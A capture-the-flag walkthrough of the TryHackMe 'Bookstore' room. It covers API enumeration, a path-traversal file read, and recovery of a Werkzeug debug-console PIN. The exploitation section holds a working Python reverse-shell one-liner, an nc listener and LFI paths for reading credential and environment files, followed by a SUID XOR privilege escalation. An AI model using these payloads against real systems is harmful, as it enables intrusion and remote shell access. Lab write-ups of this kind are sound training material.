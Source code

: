 # TryHackme - Bookstore

## Enumeration

I start with a simple nmap scan and lets see what ports are open.

`nmap -sV -n -Pn <IP>`

![Screenshot0](./screenshot0.png)

We see an open SSH service and two web servers.
The first webserver on port 80 provides us with a nice website while the second one tells us that it is a `Foxy REST API v2.0`.

![Screenshot1](./screenshot1.png)

I started with the second webserver on port 5000 and first looked if a `robots.txt` is available.
The entry `Disallow: /api` leads us to the API documentation and we can see how to use the API.

![Screenshot2](./screenshot2.png)

I have made a few querys, looked at the docs and played around a bit with the API.
The first thing I noticed was the `v2` in the URL, so I checked if there are other versions available.
And the path `/api`**`/v1/`**`resources/books/all` works as well.
Presumably we can now find here other and old functionalities which are not found in the current version more and have vulnerabilities.
In the __OWASP API Security Top 10__ this is listed as __Improper Assets Management__.

So I started to fuzz both versions a bit and find differences.
I searched with __FFUF__ at different points.
At the web root I found the `/console` of the `Werkzeug`, which is PIN protected.

![Screenshot3](./screenshot3.png)

While fuzzing for new parameters I came across the following:

`http://<IP>:5000/api/v1/resources/books?FUZZ=1`

![Screenshot4](./screenshot4.png)

## Exploitation

The `show` functionality is not included in the current v2 version.
If we look at it in the browser we see that we are dealing with flask and will get various traceback error messages.
The output `NameError: name 'filename' is not defined` first made me think that the application expects filenames and we should look for a LFI vulnerability here.
![Screenshot5](./screenshot5.png)

And look!
If we pass the `show` parameter `../../etc/passwd` we see the passwd file.

![Screenshot6](./screenshot6.png)

How to proceed now?
We have a LFI vulnerability and the `/console` tool which is still PIN protected.
In the console we will be able to issue python commands and thus establish a reverse shell.

I assumed that we have to generate it with the `Werkzeug Console PIN Exploit` and started to collect the necessary information: `username,modname...`.
Then the pincode fortunately already fell into my hands when including `/proc/self/environ` as environment variable.....nice!

![Screenshot7](./screenshot7.png)

We go to `/console` enter the PIN and we can establish a reverse shell.

Listener on attacker-machine: `nc -nlvp 9876`

Python rev-shell for the console: `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",9876));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")`

We have reverse shell, go to the home directory and get the user flag.

![Screenshot8](./screenshot8.png)

## PrivEsc

Now to the Privilege Escalation.
In the home directory next to our flag we notice an interesting file called `try-harder`.
Interesting, let's have a closer look at it!

`ls -l try-harder`

![Screenshot9](./screenshot9.png)

The __owner__ of this executable is __root__ and it has a __SUID__ permission.
When executing the file we see that the file asks us for a magic number which we unfortunately do not have.

First I tried with `ltrace` and `strace` to find out the desired number, but it didn't work.
With `strings` it was also not possible, but with the output I noticed the string `/bin/bash -p` which confirms my assumption that we get a root shell after entering the correct number.

So I used `python3 -m http.server` and `curl` to get the file on my machine to look at it with Ghidra.
Ghidra's decompiled code looks like this.

![Screenshot10](./screenshot10.png)

Let's break the code down a bit.
The binary takes our input and performs an XOR operation: `local_14 = local_1c ^ 0x1116 ^ local_18`.
If the result from the previous calculation comes to the value 1573724660 the condition will be true and we will get the root shell.

```C
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
```
  
 XOR is reversible, so here's how we can get our Magic Number in Python.
  
```
>>>0x5dcd21f4 ^ 0x1116 ^ 0x5db3
>>>
```

We submit the number and get a bash as root!

![Screenshot11](./screenshot11.png)


